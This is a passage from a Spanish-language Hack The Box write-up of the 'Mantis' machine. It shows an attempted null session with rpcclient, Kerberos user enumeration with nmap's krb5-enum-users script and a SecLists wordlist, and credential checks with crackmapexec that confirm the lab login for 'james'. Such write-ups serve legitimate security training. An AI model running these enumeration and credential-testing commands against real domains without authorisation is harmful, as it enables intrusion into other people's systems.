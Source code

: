 ### Kerberos

Se tiene el puerto 88 abierto asociado al servicio de kerberos, por lo que podríamos conectarnos a través de una *null session* y ver posibles usuarios del dominio.

```bash
❯ rpcclient -U "" 10.10.10.52
Enter WORKGROUP\'s password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```

Tampoco podemos ver la información relacionada al dominio. 

### Fuerza bruta (forma de obtener usuarios del dominio)

A este punto vemos que no tenemos forma de hacerlo; pero NO, vamos a tratar de acceder un tipo de ataque de fuerza bruta para obtener usuarios del dominio, para ello necesitamos de [SecList](https://github.com/danielmiessler/SecLists); lo descargamos en nuestra máquina y haciendo uso del script `krb5-user-enum` en `nmap` y del archivo `names.txt` de *SecList*, procedemos a ejecutar el siguiente comando:

```bash
❯ nmap -p88 --script=krb5-enum-users --script-args=krb5-enum-users.realm='htb.local',userdb=/opt/SecLists-master/Usernames/Names/names.txt 10.10.10.52 -oN kerberosUserEnum
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-19 20:40 CDT
Nmap scan report for 10.10.10.52
Host is up (0.14s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|_    james@htb.local

Nmap done: 1 IP address (1 host up) scanned in 242.63 seconds
```

Tenemos un usuario potencial del dominio: **james** que de acuerdo con la base de datos, es el mismo y tenemos la contraseña. 

A partir de aquí, tenemos un juego de credenciales a probar; así que primero vamos a validarlas con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.52 -u 'admin' -p 'm$$ql_S@_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [-] htb.local\admin:m$$ql_S@_P@ssW0rd! STATUS_LOGON_FAILURE 
❯ crackmapexec smb 10.10.10.52 -u 'james' -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd!
```
